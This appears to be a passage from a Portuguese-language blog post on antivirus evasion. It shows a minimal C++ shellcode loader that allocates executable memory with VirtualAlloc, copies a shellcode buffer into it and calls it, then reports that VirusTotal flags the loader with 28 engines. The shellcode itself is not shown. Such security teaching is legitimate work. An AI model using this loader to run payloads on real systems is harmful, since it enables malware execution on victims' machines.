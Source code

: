 ```cpp

int main() {
    size_t shellcode_size = sizeof(shellcode) - 1;

    void *exec_mem = VirtualAlloc(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == NULL) {
        fprintf(stderr, "Falha na alocação de memória.\n");
        exit(EXIT_FAILURE);
    }

    memcpy(exec_mem, shellcode, shellcode_size);

    void (*func)() = (void(*)())exec_mem;
    func();

    return 0;
}
```

Uma vez que este programa foi a forma mais simples de injetar e executar um *shellcode* em um espaço de memória, ele não foi pensado para lidar com nenhum tipo de bloqueio proveniente de um antivírus.

Ao analisarmos no **VirusTotal**, podemos ver que foi identificado como ameaça por **28** antivírus:

![](/img/posts/Pasted%20image%2020240723212418.png)
